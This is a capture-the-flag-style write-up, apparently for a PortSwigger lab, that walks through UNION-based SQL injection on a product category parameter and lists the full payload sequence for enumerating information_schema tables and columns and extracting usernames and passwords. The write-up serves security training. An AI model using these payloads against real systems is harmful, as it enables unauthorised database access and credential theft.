 * Title: SQL injection attack, listing the database contents on non-Oracle databases

* Goal: Log in as the administrator user.

* Vulnerability Location: The **product category search parameter** is vulnerable to UNION SELECT injection.

* Payload Used:

 ```' ORDER BY 2 --``` ,  ```' UNION SELECT table_name, NULL FROM information_schema.tables --``` , 
 
 ```UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_ncodug'--``` , 
 
 ```' UNION SELECT username_hsawsp, password_poblds FROM users_ncodug--```

* Steps:

  ### IMPORTANT NOTE: Table names(like users_ncodug) and column names (like username_hsawsp and password_poblds) in PortSwigger labs are randomized, so you must first discover them via information_schema.tables.

  1. First we determine the number of columns using  ```ORDER BY 2 --``` command. And here, I get 2 columns. 
 
  2. Now, we inject the second payload ```' UNION SELECT table_name, NULL FROM information_schema.tables --``` , which basically means "Get all the table names".
    Scan the page output for table names that resemble credentials, typically users_* (example: "users_ncodug")
 
  3. Then we inject the next payload ```UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_ncodug'--``` .
    This payload queries the information_schema.columns table, a system-level metadata registry available in MySQL and MSSQL, to list all column names belonging to the users_ncodug table.

  4. Scan the page output for column names that resemble credentials, typically username_* and password_* (example: "username_hsawsp" & "password_poblds")
 
  5.  And last, inject the payload ```' UNION SELECT username_hsawsp, password_poblds FROM users_ncodug--```, which means "Extract the content of 'username_hsawsp' & 'password_poblds' columns from users_ncodug table"

* Result: You successfully enumerate the database structure and extract usernames and passwords from a hidden table using UNION-based SQL injection.

* Takeaway: When targeting non-Oracle databases, information_schema is your map. Use it to list tables, inspect columns, and extract data — all through UNION injection. Always match the column count and structure, and adapt to randomized table/column names.
